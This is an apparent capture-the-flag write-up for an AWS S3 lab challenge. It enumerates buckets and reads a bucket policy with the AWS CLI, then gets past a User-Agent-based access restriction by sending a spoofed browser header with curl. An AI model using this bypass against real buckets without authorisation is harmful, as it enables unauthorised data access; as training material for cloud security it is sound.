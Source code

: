 # Special Request

Check S3 buckets and its object. 
```
aws s3api list-buckets --profile PTAcademyJllerena
aws s3api list-objects --bucket s3-special-request-522968453802 --profile PTAcademyJllerena
```
![image](https://user-images.githubusercontent.com/46797181/227651823-7ac5e81c-4b73-4268-8c14-90007399de20.png)

Check the bucket policy. `aws s3api get-bucket-policy --bucket s3-special-request-522968453802 --output text --profile PTAcademyJllerena | jq` (or python -m json.tool)
![image](https://user-images.githubusercontent.com/46797181/227652263-ce68b3dd-62ab-4905-92d0-a45e09e15559.png)

Policy shows that we need a special agent to retrieve the flag, as seen below, using `curl -s http://s3-special-request-522968453802.s3.amazonaws.com/flag | xmllint --format -` will give an access denied message but if specifying the agent `curl -s http://s3-special-request-522968453802.s3.amazonaws.com/flag -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/*'` will retrieve the flag
![image](https://user-images.githubusercontent.com/46797181/227653240-205b2561-b2f1-4f79-8f6c-1d52497eb749.png)

